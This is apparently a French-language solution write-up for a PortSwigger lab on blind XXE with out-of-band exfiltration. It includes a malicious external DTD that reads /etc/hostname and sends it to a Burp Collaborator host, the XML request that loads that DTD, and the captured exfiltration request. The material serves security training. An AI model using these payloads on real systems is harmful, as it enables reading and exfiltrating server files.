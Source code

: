 # Lab

https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration

## Solution

Pour ce lab, on doit utiliser un DTD externe qu'on peut heberger sur l'exploit serveur à l'URL `malicious.dtd` :

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://n1ptu79mtjo85m3mtxpky92lnct3hw5l.oastify.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Ce DTD lorsqu'il sera utilisé et exécuté par le serveur, va créer une entité paramétrée `exfiltrate` qui va exécuter une requête HTTP GET vers l'URL `http://n1ptu79mtjo85m3mtxpky92lnct3hw5l.oastify.com/?x=%file;` avec la valeur de l'entité `%file` en paramètre qui contient le contenu du fichier `/etc/hostname`.

Pour l'executer, on peut utiliser la requête du check de stock pour lier le DTD externe :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aab00430348b42f855accb601f60011.exploit-server.net/malicious.dtd"> %xxe;]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Et dans Burp Collaborator, on peut voir que le fichier `/etc/hostname` a été exfiltré :

```
GET /?x=2588c3bae973 HTTP/1.1
User-Agent: Java/17.0.5
Host: n1ptu79mtjo85m3mtxpky92lnct3hw5l.oastify.com
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

Le contenu du fichier `/etc/hostname` est `2588c3bae973`.